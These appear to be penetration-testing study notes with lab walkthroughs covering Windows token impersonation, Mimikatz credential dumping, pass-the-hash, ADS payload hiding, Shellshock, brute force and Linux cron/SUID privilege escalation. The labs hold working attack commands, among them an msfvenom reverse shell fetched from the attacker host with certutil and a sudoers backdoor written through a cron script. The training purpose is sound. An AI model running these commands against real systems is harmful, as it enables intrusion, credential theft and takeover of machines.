* Access tokens are generated by the `winlogon.exe` process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the `userinit.exe` process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
* Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
* An access token will typically be assigned one of the following security levels :
  * Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  * Delegate-level tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.
* Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.
* Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

#### Windows privileges

* The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as impersonation or delegation tokens available.
* The following are the privileges that are required for a successful impersonation attack :
  * **SeAssignPrimaryToken** : this allows a user to impersonate tokens.
  * **SeCreateToken** : this allows a user to create an arbitrary token with administrative privileges.
  * **SeImpersonatePrivilege** : this allows a user to create a process under the security context of another user typically with administrative privileges.

#### Incognito module

* Incognito is a built-in meterpreter module that was originally a standalone application that allows to impersonate user tokens after successful exploitation.
* We can use the incognito module to display a list of available tokens that we can impersonate.

#### Lab

```bash
john@attack> nmap 10.3.16.83
john@attack> msfconsole

msf6> search rejetto
msf6> use 0
msf6> set rhosts 10.3.16.83
msf6> run

meterpreter> getuid            # NT AUTHORITY\LOCAL SERVICE
meterpreter> getprivs
meterpreter> pgrep explorer
meterpreter> migrate 3788
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token "ATTACKDEFENSE\Administrator"

meterpreter> getuid            # ATTACKDEFENSE\Administrator
meterpreter> getprivs
meterpreter> pgrep explorer
meterpreter> migrate 3788
meterpreter> list_tokens -u
meterpreter> impersonate_token "NT AUTHORITY\SYSTEM"

meterpreter> getuid            # NT AUTHORITY\SYSTEM
meterpreter> shell

C:\Windows\system32> more c:\users\administrator\desktop\flag.txt
```

### Alternate Data Streams (ADS)

#### Description

* Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
* Any file created on an NTFS formatted drive will have two different forks/streams :
  * Data stream : default stream that contains the data of the file.
  * Resource stream : typically contains the metadata of the file.
* Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detection.
* This can be done by storing the malicious code or executables in the file attribute resource stream (metadata) of a legitimate file.
* This technique is usually used to evade basic signature based AVs and static scanning tools.

#### Demo

```bash
C:\Temp> type payload.exe > windowslog.txt:winpeas.exe

C:\Temp> notepad windowslog.txt

C:\Temp> cd c:\windows\system32
c:\windows\system32> mklink wupdate.exe c:\temp\windowslog.txt:winpeas.exe
c:\windows\system32> start wupdate.exe
```

### Windows password hashes

#### Description

* The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
* Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
* Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
* Windows versions up to Windows Server 2003 utilize two different types of hashes :
  * LM
  * NTLM
* Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

#### SAM database

* SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
* The SAM database file cannot be copied while the operating system is running.
* The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
* In modern version of Windows, the SAM database is encrypted with a syskey.

_Note : elevated/administrative privileges are required in order to access and interact with the LSASS process._

<figure><figcaption></figcaption></figure>

#### LM hash

* LM (LanMan) is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.
* The protocol is used to hash user passwords, and the hashing process can be broken down into the following steps :
  * The password is broken into two seven-character chunks.
  * All characters are then converted into uppercase.
  * Each chunk is then hashed separately with the DES algorithm.
* LM hashing is generally considered to be a weak protocol and can easily be cracked, primarily because the password hash does not include salts, consequently making brute-force and rainbow table attacks effective against LM hashes.

<figure><figcaption></figcaption></figure>

#### NTLM hash

* NTLM (NTHash) is a collection of authentication protocols thath are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
* From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
* WHen a user account is created, it is encrypted using the **MD4** hashing algorithm, while the original password is disposed of.
* NTLM improves upon LM in the following ways :
  * Does not split the hash in to two chunks.
  * Case sensitive.
  * Allows the use of symbols and unicode characters.

### Searching for passwords in Windows config files

#### Windows config files

* Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
* This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
* This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
* If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

#### Unattended Windows Setup

* The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information :
  * c:\windows\panther\unattend.xml
  * c:\windows\panther\autounattend.xml
* As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

#### Lab

```bash
john@attack> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.2 LPORT=1234 -f exe > payload.exe
john@attack> python -m SimpleHTTPServer 80
```

```powershell
C:\Users\student> cd Desktop
C:\Users\student> certutil -urlcache -f http://10.10.9.2/payload.exe payload.exe
```

```bash
john@attack> msfconsole

msf6> use multi/handler
msf6> set lhost 10.10.9.2
msf6> set lport 1234
msf6> run
```

Execute the `payload.exe` on the target and gain meterpreter on the attacker.

```bash
meterpreter> sysinfo
```

<figure><figcaption></figcaption></figure>

```bash
meterpreter> getuid  # PRIV-ESC\student
meterpreter> search -f Unattend.xml
meterpreter> cd c:\\windows\panther
meterpreter> download unattend.xml
meterpreter> exit

john@attack> cat unattend.xml  # administrator:QWRtaW5AMTIz
```

The password is base64 encoded.

```bash
john@attack> echo 'QWRtaW5AMTIz' > password
john@attack> base64 -d password  # Admin@123
john@attack> psexec.py administrator@10.3.31.19

C:\Windows\system32> whoami
C:\Windows\system32> more c:\users\administrator\desktop\flag.txt
```

### Mimikatz

#### Description

* Mimikatz is a Windows post-exploitation tool written by Benjamin Deply (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Account Manager) databse, is a database file on Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the `lsass.exe` process memory where hashes are cached.
* We can utilize the pre-compiled `mimikatz` executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

_Note : Mimikatz will require elevated privileges in order to run correctly._

#### Lab

```bash
john@attack> nmap 10.3.30.187 -sV

msf6> search badblue
msf6> use 1
msf6> set rhosts 10.3.30.187
msf6> run

meterpreter> sysinfo
meterpreter> getuid  # Administrator
meterpreter> pgrep lsass
meterpreter> migrate 768
meterpreter> getuid  # NT Authority/system

meterpreter> load kiwi
meterpreter> ?
meterpreter> creds_all
meterpreter> lsa_dump_sam
meterpreter> lsa_dump_secrets

meterpreter> cd c:\\
meterpreter> mkdir Temp
meterpreter> cd Temp
meterpreter> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
meterpreter> shell

C:\Temp> dir
C:\Temp> .\mimikatz.exe

mimikatz> lsadump::sam
mimikatz> lsadump::secrets
mimikatz> sekurlsa::logonpasswords
```

### Pass-The-Hash attack

#### Description

* Pass-the-hash is an exploitation technique that involves capturing or havesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use multiple tools to facilitate a Pass-The-Hash attack :
  * Metasploit PsExec module
  * Crackmapexec
* This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

#### Demo

<figure><figcaption></figcaption></figure>

```bash
john@attack> msfconsole

msf6> use windows/http/badblue_passthru
msf6> set rhosts 10.3.21.247
msf6> set lport 4444
msf6> run

meterpreter> pgrep lsass
meterpreter> migrate 772
meterpreter> getuid  # NT AUTHORITY\SYSTEM

meterpreter> load kiwi
meterpreter> lsa_dump_sam
meterpreter> hashdump
# Ctrl+Z for background
```

**First method : PsExec**

```
msf6> use exploit/windows/smb/psexec
msf6> set rhosts 10.3.21.247
msf6> sessions
msf6> set lport 4422
msf6> set SMBUser Administrator
msf6> set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d  # LM:NTLM
msf6> run
```

**Second method : Crackmapexec**

This is the NTLM hash.

```bash
john@attack> crackmapexec smb 10.3.21.247 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"
```

### Frequently exploited Linux services

* Linux is a free an open source operating system that is comprised of the Linux kernel, which was developed by Linux Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman.
* This combination of open source software is what makes up the Linux OS as a while, and it is commonly referred to as GNU/Linux.
* Linux has various use cases, however, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.
* These services provide an attacker with an access vector that they can utilize to gain access to a target host.
* Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester.

| Protocol/Service             | Ports            | Purpose                                                                                                                                                                       |
| ---------------------------- | ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Apache Web Server            | TCP ports 80/443 | Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for 80% of web servers globally.                                        |
| SSH (Secure Shell)           | TCP port 22      | SSH is cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet. |
| FTP (File Transfer Protocol) | TCP port 21      | FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients and vice versa.                   |
| SAMBA                        | TCP port 445     | Samba is the Linux implementation of SMB, and allows Windows systems to access Linxu shares and devices.                                                                      |

### CVE-2014-6271 (Shellshock)

#### Description

* Shellshock is the name given to a faimly of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
* The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.
* Bash is a \*Nix shell that is part of the GNU project and is the default shell for most Linux distributions.
* The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters `() {:;}`.
* This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a \*Nix based operating system.
* In the context of remote exploitation, Apache web servers configured to run CGI scripts or `.sh` scripts are also vulnerable to this attack.
* CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

#### Exploitation

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
* In the context of an Apache server, we can utilize any legitimate CGI scripts accessible on the web server.
* Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
* The vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

#### Lab

**Manual method**

```bash
john@attack> nmap 192.134.66.3
```

<figure><figcaption></figcaption></figure>

The source code of the web page http://192.134.66.3 grabs information from a CGI script on http://192.134.66.3/gettime.cgi. By catching the request, it's possible to craft the User-Agent to gain a reverse shell. Prepare a netcat listener on the attacker host (port 1234) before sending the request to the victim.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

**MSF method**

```bash
msf6> use multi/http/apache_mod_cgi_bash_env_exec
msf6> set rhosts 192.134.66.3
msf6> set targeturi /gettime.cgi
msf6> run
```

### Exploiting FTP

#### Description

* FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
* It is also frequently used as a means of transferring files to and from the directory of a web server.
* FTP authentication requires a username and password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials.
* In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access to the FTP server without providing any legitimate credentials.

#### Lab

_Already done in previous lesson._

### Exploiting SSH

#### Description

* SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* SSH authentication can be configured in two ways :
  * Username and password authentication
  * Key based authentication
* In the case of username and password authentication, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

#### Lab

```bash
john@attack> nmap 192.89.165.3
john@attack>  hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.89.165.3 ssh
```

The credentials are listed in the result of the above command, connect to SSH with credentials to grab the flags.

### Exploiting SAMBA

#### Description

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).
* SMB users port 445 (TCP). Howerver, originnaly, SMB ran on top of NetBIOS using port 139.
* Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
* SAMBA utilizes username and password authentication in order to obtain access to the server or a network share.
* We can perform a brute-force attack on the SAMBA server in order to obtain legitimate credentials.
* After obtaining legitimate credentials, we can use a utility called `SMBMap` in order to enumerate SAMBA share drives, list the content of the shares as well as download files and execute remote commands on the target.
* We can also utilize a tool called `smbclient`. smbclient is a client that is part of the SAMBA software suite. It communicates with a LAN Manager server, offering an interface similar to that of the FTP program. It can be used to download files from the server to the local machine, upload files from the local machine to the server as well as retrieve directory information from the server.

#### Lab

`nmap` `hydra` `smbclient` `smbmap` `enum4linux`

```bash
john@attack> nmap -sV 192.108.122.3
john@attack> hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.108.122.3 smb
john@attack> smbmap -u admin -p password1 -H 192.108.122.3
john@attack> smbclient -L 192.108.122.3 -U admin
john@attack> smbclient //192.108.122.3/shawn -U admin
smb> ls
smb> exit

john@attack> smbclient //192.108.122.3/nancy -U admin
smb> cd dir
smb> get flag
smb> exit
john@attack> cat flag

john@attack> enum4linux -a -u admin -p password1  192.108.122.3
```

### Linux kernel exploits

#### Description

* Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
* Privilege escalation on Linux systems will typically follow the following methodology :
  * Identifying kernel vulnerabilities
  * Downloading, compiling and transferring kernel exploits onto the target system.

#### Tools & environment

* **Linux-Exploit-Suggester** : this tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit (https://github.com/mzet-/linux-exploit-suggester).

```bash
meterpreter> sysinfo
meterpreter> getuid
meterpreter> cd /tmp
meterpreter> wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
meterpreter> upload les.sh
meterpreter> shell
/bin/bash -i

www-data@ubuntu> chmod +x les.sh
www-data@ubuntu> ./les.sh
```

### Misconfigured CRON jobs

#### Description

* Linux implemented task scheduling through a utility called Cron.
* Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.
* An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to systems upgrades and patches.
* The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.

#### Exploitation

* Cron jobs can also be run as any user on the system, this is a very important factor to keep an eyes on as we will be targeting Cron jobs that have been configured to be run as the `root` user.
* This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.
* In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

#### Lab

```bash
groups
cat /etc/passwd
crontab -l
ls -la
grep -rnw /usr -e "/home/student/message"
cat /tmp/message
ls -la /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
sudo -l
sudo su
cat /root/flag
crontab -l
```

### Exploiting SUID binaries

#### Description

* In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations. One th these access permissions is the SUID (Set Owner User ID) permission.
* When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.
* SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with `root` permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.
* This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors :
  * Owner of the SUID binary : given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the `root` user or other privileged users.
  * Access permissions : we will require executable permissions in order to execute the SUID binary.

#### Lab

```bash
ls -l
./greetings
./welcome
strings welcome  # the string greetings exists in the file
rm greetings
cp /bin/bash greetings
./welcome

cat /root/flag
```

### Dumping Linux password hashes

* Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
* All of the information for all accounts on Linux is stored in the passwd file located in `/etc/passwd`.
* We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.
* All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory `/etc/shadow`.
* The shadow file can only be accessed and read by the **root** account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.
* The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol `$`.

| Value | Hashing algorithm |
| ----- | ----------------- |
| $1    | MD5               |
| $2    | Blowfish          |
| $5    | SHA-256           |
| $6    | SHA-512           |
